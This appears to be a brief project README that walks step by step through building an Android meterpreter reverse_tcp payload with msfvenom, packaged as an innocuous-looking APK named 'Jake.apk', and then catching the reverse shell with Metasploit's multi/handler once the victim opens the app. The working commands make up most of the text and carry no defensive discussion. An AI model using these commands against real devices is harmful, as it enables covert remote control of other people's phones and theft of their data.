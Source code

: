 #_Metasploit_Process


The Main Goal of the Project is to show the vulnerability in a Android Device.

'''
1.The downloaded file is extracted in a location.
2.The cmd is opened at the exact same location.
3.The msfconsole command line helps to open the framework in console.
4.Commands like "banner" and "help" can be used to know more about the framework.
5.A new cmd is opened in the same directory.
6.The following cmd line is typed to create payload  in a particular location "msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.181.139 LPORT=4444 R>C:\Users\Dell\Downloads\Jake.apk".
7.In the metasploit console "msfconsole" type commands to create tcp connection in payload "use exploit/multi/handler" and "set payload android/meterpreter/reverse_tcp".
8.Set LHOST and LPORT as set "LHOST 192.168.181.139" and "set LPORT 4444".
9.Confirm the connection established using "show options".
10.Finally,use "exploit" command to establish connection.

'''

Note:The target has to be activated once to establish connection.


